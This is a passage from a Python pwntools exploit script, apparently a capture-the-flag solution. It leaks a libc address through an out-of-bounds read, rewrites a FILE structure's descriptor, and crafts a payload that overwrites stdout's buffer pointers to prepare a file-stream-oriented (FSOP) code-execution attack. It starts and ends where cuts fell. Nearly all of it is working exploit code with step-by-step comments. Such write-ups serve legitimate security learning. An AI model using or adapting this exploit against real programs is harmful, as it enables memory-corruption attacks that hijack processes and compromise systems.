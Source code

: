 ```python
  sla('> ', '2')
  sla('Size: ', str(size))

def read():
  sla('> ', '3')

def write(data):
  sla('> ', '4')
  sla('Data: ', enhex(data)+'-')

def leakpos(pos):
  for i in range(pos):
    p.recv(3)
  leak = 0
  for i in range(8):
    leak += (u8(unhex(p.recv(2))))<<(i*8)
    p.recv(1)
  return leak

# first we alloc a 0x400 chunk
alloc(0x400)
# open null device
open(2)
# alloc 0x500 chunk (will fails,but will modifiy size)
alloc(0x500)
# oob read of file structure after our 0x400 chunk (will leak libc addresses)
read()
# got our leak & calculate libc base
leak = leakpos(1144)
logleak('leak',leak)
libc.address = leak-0x21a6a0
logbase()

# close device
close()
# open zero device (this one spits zeroes)
open(3)
# try to alloc 0x439 bytes (will fails,but will modifiy size), 
# overwrite with zeroes beginning of file structure
# that will zero the lsb of buffer base where data is stored when writing, 
# and will permit you to write data inside the file structure
alloc(0x439)
read()
# modify the file structure to overwrite the filedescriptor entry to zero
# now it will read input from stdin, instead of an useless device
write( p64(0)*3+p64(libc.sym['_IO_2_1_stderr_'])+p8(0) )

# this payload will change the buffer addresses in file structure to use it as a write primitive
# we will write over stdout in libc like this
payload = b'\x00'*0x408+p64(0x1e1)+p64(0x5fbad2483)+p64(0)*4+p64(libc.sym['_IO_2_1_stdout_'])+p64(libc.sym['_IO_2_1_stdout_']+232)*2+p64(libc.sym['_IO_2_1_stdout_']+233)
print('len = '+str(len(payload)))
# failed alloc to modify size to the size of our payload
alloc(len(payload))
# write payload (yes a read is a write in this case)
read()
p.send(payload)

# from this point what we write will be written in stdout
# so we will prepare a FSOP payload
# https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc#3---the-fsop-way-targetting-stdout

```